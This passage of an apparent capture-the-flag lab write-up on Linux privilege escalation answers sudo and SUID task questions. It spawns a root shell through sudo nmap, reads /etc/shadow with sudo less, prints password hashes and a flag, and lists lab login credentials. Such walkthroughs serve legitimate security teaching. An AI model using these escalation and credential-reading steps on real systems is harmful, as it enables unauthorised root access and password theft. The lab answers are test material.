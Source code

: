 <pre><code>$ find / -name flag2.txt 2>/dev/null
/home/ubuntu/flag2.txt
# cat /home/ubuntu/flag2.txt
THM-402028394
</code></pre><br>

> 6.3 - <em>How would you use Nmap to spawn a root shell if your user had sudo rights on nmap?</em><br>
>> <code><strong>sudo nmap --interactive</strong></code><br>
<p></p>

<p>Another option would be ...</p>

<pre><code>$ nmap> !sh
</code></pre><br>

> 6.4 - <em>What is the hash of frank's password??</em><br>
>> <code><strong>$6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1</strong></code><br>
<p></p>

<pre><code># sudo less /etc/shadow
...
list:*:18561:0:99999:7:::
...
...
karen:$6$QHTxjZ77ZcxU54ov$DCV2wd1mG5wJoTB.cXJoXtLVDZe1Ec1jbQFv3ICAYbnMqdhJzIEi3H4qyyKO7T75h4hHQWuWWzBH7brjZiSaX0:18796:0:99999:7:::
frank:$6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1:18796:0:99999:7:::
/etc/shadow (END)
</code></pre><br>

<h2>Task 7 - Privilege Escalation: SUID</h2>
<br>

<p><strong>Note: Launch the target machine attached to this task to follow along.<br>

You can launch the target machine and access it directly from your browser.<br>

Alternatively, you can access it over SSH with the low-privilege user credentials below:<br><br>

Username: karen<br>

Password: Password1</strong></p>

<p>Much of Linux privilege controls rely on controlling the users and files interactions. This is done with permissions. By now, you know that files can have read, write, and execute permissions. These are given to users within their privilege levels. This changes with SUID (Set-user Identification) and SGID (Set-group Identification). These allow files to be executed with the permission level of the file owner or the group owner, respectively.<br>

You will notice these files have an “s” bit set showing their special permission level.</p>

<p><code>find / -type f -perm -04000 -ls 2>/dev/null</code>code> will list files that have SUID or SGID bits set.</p>
